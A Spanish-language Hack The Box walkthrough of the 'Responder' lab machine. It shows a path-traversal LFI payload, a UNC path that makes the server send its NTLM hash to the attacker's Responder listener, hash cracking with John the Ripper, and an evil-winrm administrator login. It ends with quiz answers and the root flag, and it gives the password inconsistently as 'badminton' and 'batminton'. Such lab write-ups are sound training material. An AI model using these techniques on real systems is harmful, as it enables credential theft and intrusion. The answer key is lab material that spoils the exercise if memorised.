 ```yaml
---
title: HTB-Responder
date: 2022-06-19 3:30:00
categories: [Hack The Box, WriteUp]
tag: [Responder, LFI]
image:
   path: /assets/img/htb/responder/preview1.png
   width: 1000
   height: 400
img_path: /assets/img/htb-responder
---
```


# Responder - HackTheBox

Realizamos un escaneo de ==nmap== para identificar los puertos abiertos y servicios.

```console
nmap -v -p- --min-rate 5000 -sV -sC {target ip}
```


Resultado del escaneo:

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 15:41 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.39.225
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.94 seconds
```

Visitamos el servidor web corriendo en el puerto 80 mediante el navegador (Firefox).

![](Pasted image 20220427161647.png)
![](Pasted image 20220427161628.png)

Nos redirige a una pagina web llamada **unika.htb**. Debido a que nos encontramos dentro de la misma red que la máquina objetivo y que ese dominio no esta registrado en un servidor DNS, procedemos a agregar la ip y el nombre de dominio al archivo **/etc/hosts** para poder visualizar la pagina web.

![](Pasted image 20220427162215.png)

Ahora ya podemos visualizarla.

![](Pasted image 20220427162345.png)

Navegando por la página nos encontramos con un apartado para cambiar el idioma, si nos fijamos en la url se ve como se incluye un archivo llamado **french.html** mediante **index.php**

![](Pasted image 20220427162745.png)

Vamos a pasarle al parámetro "page" la siguiente cadena para saber si es vulnerable a **LFI** y como consecuencia a **path traversal**.

```console
../../. ./../../../../../windows/system32/drivers/etc/hosts
```

![](Pasted image 20220427163537.png)

![](Pasted image 20220427163432.png)

Como podemos ver existe una vulnerabilidad en esta web.
Regresando al escaneo, el puerto **5985** se encuentra abierto lo que quiere decir que **WinRM** esta disponible. Podemos aprovecharnos del **LFI** de la página web para capturar el **hash NTLM** de la máquina con ayuda de la herramienta **responder**.

Vamos a ejecutar la herramienta con el siguente comando.

```console
sudo responder -I tun0
```
> `tun0` es la interfaz de red de nuestra máquina
{: .prompt-info }

![](Pasted image 20220427170550.png)

Verificamos que el servidor **SMB** este activado.

![](Pasted image 20220427170523.png)

Mientras **responder** esta esperando una conexion, nos dirigimos a la URL de la página web e ingresamos la siguiente cadena en el parámetro page.

```console
//{our machine ip}/somefile
```
Esto para que la página incluya un "recurso" de nuestro servidor **SMB** y se establezca una conexión.

![](Pasted image 20220427171130.png)

Vemos en la terminal que se ha capturado el **hash NTLM**.

![](Pasted image 20220427171250.png)

Guardamos el hash en un archivo de texto y lo desciframos con ayuda de la herramienta **John The Ripper** .

![](Pasted image 20220427171705.png)

```console
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

![](Pasted image 20220427172056.png)

A continuación utilizamos la herramienta **evilwinrm** para autenticarnos en el sistema con las credenciales obtenidas.

```console
evil-winrm -i {target ip} -u administrator -p badminton
```

![](Pasted image 20220427172504.png)

Ahora solo queda buscar el archivo ==flag.txt==. Este se encuentra en la ruta `C:\Users\mike\Desktop`.

![](Pasted image 20220427172844.png)

## Preguntas

1. ¿Cuántos puertos TCP están abiertos en la máquina?
   **3**

2. Al visitar el servicio web utilizando la dirección IP, ¿cuál es el dominio al que se nos redirige?
   **unika.htb**

3. ¿Qué lenguaje de secuencias de comandos se utiliza en el servidor para generar páginas web?
   **php**

4. ¿Cuál es el nombre del parámetro de URL que se usa para cargar diferentes versiones de idioma de la página web?
   **page**

5. ¿Cuál de los siguientes valores para el parámetro `page` sería un ejemplo de explotación de una vulnerabilidad de inclusión de archivo local (LFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
   **../../. ./../../../../../windows/system32/drivers/etc/hosts**

6. ¿Qué significa NTLM?
   **New Technology LAN Manager**

7. ¿Qué indicador usamos en la utilidad Responder para especificar la interfaz de red?
   **-I**

8. Hay varias herramientas que aceptan un desafío/respuesta de NetNTLMv2 y prueban millones de contraseñas para ver si alguna de ellas genera la misma respuesta. A una de estas herramientas se la suele denominar `john`, pero el nombre completo es ¿cuál?.
   **John The Ripper**

9. ¿Cuál es la contraseña para el usuario administrador?
   **batminton**

10. Usaremos un servicio de Windows (es decir, que se ejecuta en la caja) para acceder de forma remota a la máquina Responder usando la contraseña que recuperamos. ¿En qué puerto TCP escucha?
    **5985**

Root Flag:
**ea81b7afddd03efaa0945333ed147fac**

![](Pasted image 20220427134218.png)
